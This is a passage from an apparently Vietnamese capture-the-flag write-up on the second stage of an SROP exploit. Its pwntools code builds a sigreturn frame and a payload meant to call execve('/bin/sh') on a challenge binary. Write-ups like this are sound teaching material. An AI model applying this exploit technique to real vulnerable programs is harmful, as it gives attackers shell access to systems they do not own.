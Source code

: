 Vậy là ta đã thực hiện sigreturn lần 1 thành công.

### Stage 2: Second SROP

Tiếp theo, chương trình sẽ yêu cầu ta nhập sau khi sigreturn 1 thành công. Nhập 8 byte đầu để so sánh với chữ `quit` nên cái frame ta set nó là `0x402008` để không bị sai do 8 byte đầu đó. 

Nhập 8 byte đầu là chữ `quit` và phần còn lại là 1 cái sigframe khác để thực thi syscall execve. Lúc này ta nhập thoải mái, không cần phải đảo ngược cái frame lại chi nữa.

Vậy frame ta tạo sẽ là:

```python
syscall = 0x0000000000401067
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = 0xdeadbeef
frame.rsp = 0x00000000402000
frame.rip = syscall
```

Payload dự tính sẽ là 8 byte đầu ghi `quitquit`, gadget sigreturn, frame và chuỗi `"/bin/sh"` nhưng không biết địa chỉ của chuỗi `"/bin/sh"` là bao nhiêu nên rdi ta tạm thời để là 0xdeadbeef.

Tạo payload và nhập vào chương trình rồi debug với gdb để tìm địa chỉ của chuỗi `"/bin/sh"`:

```python
payload = b'quitquit' + p64(sigreturn) + bytes(frame) + b'/bin/sh\x00'
p.send(payload)
```

Sau khi nhập payload 2 vào và kiểm tra stack:

![check-str-bin-sh.png](images/check-str-bin-sh.png)
